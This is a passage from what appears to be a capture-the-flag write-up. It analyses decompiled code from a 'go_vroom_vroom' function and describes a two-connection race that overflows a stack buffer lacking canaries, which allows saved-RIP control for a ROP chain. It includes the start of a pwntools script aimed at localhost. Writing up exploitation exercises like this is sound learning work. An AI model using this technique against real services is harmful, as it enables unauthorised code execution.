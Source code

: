 This is the disassembly of the beginning of the `go_vroom_vroom()` function.

Here we see that the `rsp` value is being manipulated after the stack frame has been set up. This is very unconventional, and has probably been done intentionally. This assembly essentially dynamically allocates usable memory on the stack by growing the stack frame. Whether this is a good idea, I'll leave up to you. But the fact is that something like this is happening:

1. When `go_vroom_vroom` is called, the program allocates enough data such that there is space for at least `car->trackLength` bytes in the stack frame.
2. A pointer to this newly created space (still in the stack frame) is assigned to `dynamically_allocated_stack_buffer`

After this has been done, this happens:

```c
  write(client_fd,"Press enter to go!\n>",0x14);
  __dest = dynamically_allocated_stack_buffer;
  read(client_fd,auStack_18 + 1,1);
  local_var = car->trackLength;
  memcpy(__dest,car->track,(unsigned long)local_var);
```

This is interesting, as we can potentially overflow the `__dest` (`dynamically_allocated_stack_buffer`) buffer. Since there are no stack canaries, we will be able to use overflow to gain control of the saved rip value. This means that we can potentially run a [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) chain.

## Obtaining RIP control

We can obtain control of the return pointer by doing the following:

1. Open two connections
2. The first connection has to make it to the `Press enter to go!\n>` prompt in the `go_vroom_vroom`. I will just arbitrarily select a small track length of 16.
   - This prompt happens after the dynamically allocated stack frame has been set up.
   - The idea is that we want to delay the `memcpy()` call until we have manipulated the `car` data from the second process. Because then we can copy more bytes than there is space in the stack frame, and overwrite the saved rip.
3. In the second connection, we want to set a large track, such that when copied into the stack of the first connection, it will overflow it's stack frame.

I wrote a small python script to do this:

```py
from pwn import *

HOST = "localhost"

def getremote(track: bytes | int):
    """Get a remote"""

    if isinstance(track, int):
        track = cyclic(track)

    size = len(track)

    io = remote(HOST, 13337)

    # send track length
    io.sendlineafter(b'>', str(size+1).encode())  # +1 for newline

    # send name of car
    io.sendlineafter(b'>', b'name of car')

    # send track
    io.sendlineafter(b'>', track)

    # The process has executed the beginning of the go_vroom_vroom() function
```